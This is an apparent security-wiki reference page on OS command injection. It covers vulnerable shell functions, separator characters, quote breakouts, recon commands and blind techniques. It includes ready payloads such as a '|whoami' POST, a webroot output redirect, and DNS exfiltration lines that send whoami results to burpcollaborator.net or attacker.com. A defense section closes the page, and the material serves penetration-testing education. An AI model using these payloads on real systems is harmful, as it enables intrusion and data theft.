

# OS Command Injection: Sinks, Separators, and Blind Exploitation

> **Classification**: OWASP Top 10 (A03:2021 – Injection), CWE-78 (Improper Neutralization of Special Elements used in an OS Command).
> **Primary Impact**: Arbitrary shell command execution on the host operating system, full system takeover, lateral network movement, and persistent remote access.

---

<!-- TOC_START -->
## Table of Contents
- [1. Injection Sinks & Execution Mechanics](#1-injection-sinks--execution-mechanics)
- [2. Command Separators & Shell Metacharacters Matrix](#2-command-separators--shell-metacharacters-matrix)
  - [Separator Breakdown](#separator-breakdown)
  - [Inline Command Execution](#inline-command-execution)
  - [Quoted Context Breakouts](#quoted-context-breakouts)
- [3. System Discovery Commands: Linux vs Windows](#3-system-discovery-commands-linux-vs-windows)
- [4. Blind Command Injection Tradecraft](#4-blind-command-injection-tradecraft)
  - [Time Delay Probing](#time-delay-probing)
  - [Webroot Output Redirection](#webroot-output-redirection)
  - [Out-of-Band (OAST) DNS Exfiltration](#out-of-band-oast-dns-exfiltration)
- [5. Diagnostic Probes & Exploitation Payloads](#5-diagnostic-probes--exploitation-payloads)
- [6. Defense & Hardening Guidelines](#6-defense--hardening-guidelines)
- [Related Pages](#related-pages)
<!-- TOC_END -->

## 1. Injection Sinks & Execution Mechanics

OS command injection occurs when an application passes untrusted user input directly into system shell invocation functions:
- **C/C++**: `system()`, `popen()`, `execve()`
- **PHP**: `exec()`, `shell_exec()`, `passthru()`, `system()`, backtick operator
- **Python**: `os.system()`, `subprocess.Popen(..., shell=True)`
- **Node.js**: `child_process.exec()`, `child_process.execSync()`
- **Java**: `Runtime.getRuntime().exec()`, `ProcessBuilder`



## 2. Command Separators & Shell Metacharacters Matrix

### Separator Breakdown

| Separator | Supported Platforms | Shell Behavior |
| :--- | :--- | :--- |
| `&` | Linux, Windows | Background operator / asynchronous execution. Subsequent command runs immediately. |
| `&&` | Linux, Windows | Boolean AND. Subsequent command executes only if preceding command exits with 0. |
| `\|` | Linux, Windows | Pipe operator. Passes output of first command as input to second. |
| `\|\|` | Linux, Windows | Boolean OR. Subsequent command executes only if preceding command fails (exit non-zero). |
| `;` | Unix / Linux | Command terminator. Sequential execution regardless of exit code. |
| `0x0a` (`
`) | Unix / Linux | Line feed. Evaluated as a command boundary in shell interpreters. |

### Inline Command Execution
On Unix-like systems, enclosed commands are evaluated prior to the surrounding command:
- **Backticks**: `` `command` `` (e.g. `ping `whoami`.attacker.com`)
- **Subshell Syntax**: `$(command)` (e.g. `cat $(echo /etc/passwd)`)

### Quoted Context Breakouts
When user input lands inside single or double quotes within the shell invocation:
- Double quotes: `"` -> Break out using `"` or utilize variable interpolation: `"$(whoami)"`.
- Single quotes: `'` -> Break out using `'` and terminate syntax: `' || whoami || '`.

## 3. System Discovery Commands: Linux vs Windows

| Reconnaissance Objective | Linux / Unix | Windows |
| :--- | :--- | :--- |
| **Current User Identity** | `whoami` / `id` | `whoami` |
| **Operating System & Kernel** | `uname -a` | `ver` |
| **Network Interfaces & IPs** | `ifconfig` / `ip a` | `ipconfig /all` |
| **Active Network Connections** | `netstat -an` / `ss -tlpn` | `netstat -an` |
| **Process Table** | `ps -ef` / `ps aux` | `tasklist` |
| **Routing Information** | `route -n` / `ip route` | `route print` |

## 4. Blind Command Injection Tradecraft

When the application does not return stdout or stderr in the HTTP response, testers employ blind verification techniques:

### Time Delay Probing
Trigger measurable delays using network diagnostic utilities:
```bash
# Linux delay (10 ICMP echo packets = 10s wait)
& ping -c 10 127.0.0.1 &
email=test||ping+-c+10+127.0.0.1||

# Windows delay (10 pings = ~10s wait)
& ping -n 10 127.0.0.1 &
```

### Webroot Output Redirection
Redirect command output to a statically served asset directory:
```bash
# Redirect output to webroot
& whoami > /var/www/static/whoami.txt &

# Retrieve via standard HTTP GET
GET /static/whoami.txt HTTP/1.1
Host: target.com
```

### Out-of-Band (OAST) DNS Exfiltration
Exfiltrate data strings by prepending command results as DNS subdomains queried against Burp Collaborator or an attacker-controlled authoritative nameserver:
```bash
# DNS query with hostname prefix
& nslookup $(whoami).burpcollaborator.net &

# Backtick alternative
& nslookup `whoami`.burpcollaborator.net &
```

## 5. Diagnostic Probes & Exploitation Payloads

```http
POST /product/stock HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

productID=381&storeID=29|whoami
```

```bash
# Blind OAST exfiltration payload
curl -v -X POST "https://target.com/feedback/submit"   -d "name=Test&email=||nslookup+\$(whoami).BURP-COLLABORATOR-SUBDOMAIN||&message=Hello"
```

## 6. Defense & Hardening Guidelines

1. **Avoid Shell Invocations**: Never invoke shell interpreters from application-layer code.
2. **Native Platform APIs**: Use structured language APIs instead of external binaries (e.g. use native file read APIs instead of invoking `cat` or `type`; use SMTP client libraries instead of calling the system `mail` binary).
3. **Safe Parameterized Process Execution**: If external processes must be called, pass arguments as separate array elements to `ProcessBuilder` or `subprocess.Popen(..., shell=False)` without passing through a shell interpreter.
4. **Strict Whitelisting**: If user input determines process options, validate strictly against a static allowlist or verify that input is strictly alphanumeric with no whitespace.
5. **Never Rely on Metacharacter Blacklists**: Shell escaping is notoriously fragile and consistently bypassed across differing shell versions and platform encodings.


## Primary Sources & Provenance
- Provenance source anchor: [[command-injection]]

## Related Pages
- Parent Hub: [[web-and-bug-bounty]]
- Target Concepts: [[server-side-template-injection]], [[file-upload-attack-matrix]], [[cross-site-scripting]]
